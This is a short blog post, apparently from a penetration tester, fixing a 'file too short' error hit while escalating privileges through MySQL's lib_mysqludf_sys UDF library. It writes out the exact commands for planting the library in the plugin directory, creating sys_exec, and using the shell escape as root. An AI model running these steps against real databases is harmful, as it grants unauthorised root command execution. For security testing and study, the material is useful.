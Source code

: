 ```yaml
---
title: MySQL Error “file too short” when creating sys_exec function
layout: post
published: true
---
```


I’ve recently encountered an interesting error “file too short” when escalating privileges on a Linux box via MySQL Library (lib_mysqludf_sys_64.so).

```bash
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/lib_mysqludf_sys_64.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';

ERROR 1126 (HY000): Can't open shared library 'lib_mysqludf_sys_64.so' (errno: 11 /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so: file too short)
```


Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)


### Solution
MySQL is running as root so we can try to copy the file manually via breaking into a shell 

```bash
mysql> \! cp lib_mysqludf_sys_64.so /usr/lib/mysql/plugin/

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)
```

### Software version details

- Database version MySQL 5.7.30 
- mysql process is running as a root
- OS: Debian 9.12 (stretch) x86_64

Cheers,</br>
bitsailor